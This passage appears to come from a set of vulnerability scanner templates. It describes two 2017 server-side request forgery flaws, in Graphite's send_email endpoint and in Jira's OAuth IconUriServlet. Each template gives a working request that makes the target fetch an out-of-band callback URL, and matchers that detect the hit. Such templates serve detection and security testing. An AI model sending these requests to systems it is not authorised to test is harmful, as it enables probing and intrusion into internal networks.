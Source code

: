 - severity - high
- tags - cve,cve2017,graphite,ssrf,oast

## Requests

- Method - GET

### URL

- {{BaseURL}}/composer/send_email?to={{rand_text_alpha(4)}}@{{rand_text_alpha(4)}}&url=http://{{interactsh-url}}

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# Atlassian Jira IconURIServlet - Cross-Site Scripting/Server-Side Request Forgery

## Description

- The Atlassian Jira IconUriServlet of the OAuth Plugin from version 1.3.0 before version 1.9.12 and from version 2.0.0 before version 2.0.4 contains a cross-site scripting vulnerability which allows remote attackers to access the content of internal network resources and/or perform an attack via Server Side Request Forgery.
- severity - medium
- tags - cve,cve2017,atlassian,jira,ssrf,oast

## Requests

### Step - 1

```
GET /plugins/servlet/oauth/users/icon-uri?consumerUri=http://{{interactsh-url}} HTTP/1.1
Host: {{Hostname}}
Origin: {{BaseURL}}

```

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---